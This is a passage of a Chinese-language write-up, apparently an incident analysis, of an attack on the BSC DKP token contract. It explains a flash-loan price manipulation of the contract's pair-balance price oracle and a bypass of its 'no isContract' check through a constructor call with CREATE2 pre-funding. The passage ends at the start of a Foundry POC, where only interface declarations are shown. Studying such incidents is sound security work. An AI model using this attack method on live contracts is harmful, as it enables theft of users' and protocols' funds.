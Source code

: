 [0xd06fa1BA7c80F8e113c2dc669A23A9524775cF19](https://bscscan.com/address/0xd06fa1BA7c80F8e113c2dc669A23A9524775cF19)  : DKP token

也就是说`0x1201()`函数,  查询了 PancakeSwapV2 上的一个PAIR的 BUSD 和 DKP 余额, 然后将余额相除并返回. 继续研究代码发现`exchange()`函数就是用的这个`0x1201()`函数进行的价格查询,以便将一定数量的美元换成DKP 给用户 (实际就是实现了一个买币函数)

这就给了黑客价格操纵的机会.



## 漏洞利用

### 价格操纵

日常操作, 利用闪电贷在`0x1201()`查询价格时用到的PAIR中借走绝大多数BUSD, 由于`0x1201()`是按照PAIR中BUSD和DKP的余额比例来计算价格的, 这就可以让其计算出DKP token价格异常"便宜"(并不是让市场上的价格变便宜, 而是让`0x1201()`计算出一个错误的很便宜的价格), 然后攻击者就可以用少量的BUSD进行大量买入. 然后再到市场上以正常的价格卖出而获利.

### 绕过合约检查

由于`exchange`函数中  `require(msg.sender.code.size <= 0, Error('no isContract'));` 条件的限制, 攻击合约是不能直接调用`exchange`函数的.

但是, 使用代码size是否为0来作为调用是否来自合约的判断条件是有问题的. 合约在"run time"时代码size是大于0的,但在"creation time",由于合约还正在部署过程中,所以其code size这时为0, 要在"creation time"执行代码逻辑,那自然就是合约的构造函数, 所以在合约的构造函数中调用`exchange`函数是可以绕过上面的条件检查的. 关于这个问题可以参考 [Ethernaut第15个挑战题目](https://github.com/yinhui1984/EthernautGameReferenceAnswers/blob/main/15_GatekepperTwo.md)

另外一个问题是,  调用`exchange`需要钱(去买DKP), 如何在合约还没部署完成时向合约转账,让它有钱呢.

所以需要事先知道合约的地址, 向其转账,然后再部署合约,部署合约时再其构造函数中进行`exchange`调用.

这就需要用到Create2: https://github.com/yinhui1984/SolidityReference/blob/main/docs/new.md#create2



## POC

```solidity
// SPDX-License-Identifier: SEE LICENSE IN LICENSE
pragma solidity ^0.8.10;

import "forge-std/Test.sol";

interface IERC20 {
    function balanceOf(address owner) external view returns (uint256);

    function approve(address spender, uint256 value) external returns (bool);

    function transfer(address to, uint256 value) external returns (bool);

    function decimals() external view returns (uint8);
}

interface IUniswapV2Pair {
    function swap(
        uint256 amount0Out,
        uint256 amount1Out,
        address to,
        bytes calldata data
    ) external;
}

interface IRouter {
    function swapExactTokensForTokensSupportingFeeOnTransferTokens(
        uint256 amountIn,
        uint256 amountOutMin,
        address[] calldata path,
```